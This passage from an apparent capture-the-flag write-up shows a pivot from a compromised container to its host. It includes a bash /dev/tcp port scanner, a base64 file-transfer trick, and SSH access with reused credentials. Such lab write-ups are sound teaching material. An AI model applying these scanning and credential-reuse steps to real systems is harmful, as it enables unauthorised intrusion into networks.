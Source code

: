 Since I know I have connectivity to the possible real machine, I can create a script to see what ports it has open. But in the container I don't have binaries like `vi` or `nano` to edit the script, so I create it on my attacker machine and transfer it to the container, when I run it I find port **22** and **80**. If I try to connect using **SSH** and reusing the credentials I found for the web service, I access or the real machine finally.

> **Attacker Machine**:

```bash
nvim port_discovery.sh

base64 -w 0 port_discovery.sh | xclip -sel clip
```

> **Victime Machine**:

```bash
echo "..." | base64 -d > port_discovery.sh
chmod +x port_discovery.sh
./port_discovery.sh
# --> Port 22 - OPEN
# --> Port 80 - OPEN

ssh augustus@172.19.0.1

hostname -I
# --> 10.10.11.130 172.19.0.1 172.17.0.1
```

> **port_discovery.sh**

```bash
#!/bin/bash

function ctrl_c(){
  echo -e "\n\n[!] Exiting ...\n"
  tput cnorm; exit 1
}

# Ctrl+c
trap ctrl_c INT

tput civis
for port in $(seq 1 65535); do
  timeout 1 bash -c "echo '' > /dev/tcp/172.19.0.1/$port" 2>/dev/null && echo "[+] Port $port - OPEN" &
done; wait
tput cnorm
```

<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_51.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_52.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_53.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
